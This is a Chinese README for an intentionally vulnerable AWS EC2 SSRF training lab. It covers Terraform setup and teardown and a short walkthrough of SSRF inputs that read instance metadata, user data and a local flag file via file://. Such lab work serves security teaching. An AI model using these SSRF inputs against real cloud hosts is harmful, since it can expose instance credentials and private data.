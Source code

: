 # AWS EC2 SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建 AWS EC2 SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 EC2 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/elastic_computing_service/aws/ec2_ssrf/
```

配置 AWS 访问凭证

```shell
aws configure
```

![img](../../../images/1651044031.png)

> 在 AWS 「控制台——》安全凭证」处可以设置并查看你的 `aws_access_key_id` 和 `aws_secret_access_key`

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1650428695.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可

![img](../../../images/1650429022.png)

## 漏洞利用

在存在 SSRF 漏洞的 EC2 上，我们可以利用 SSRF 读取 EC2 的元数据、用户数据等信息。

读取元数据

```shell
http://169.254.169.254/latest/meta-data/
```

![img](../../../images/1650429215.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://169.254.169.254/latest/user-data
```

![img](../../../images/1650429432.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1650429930.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
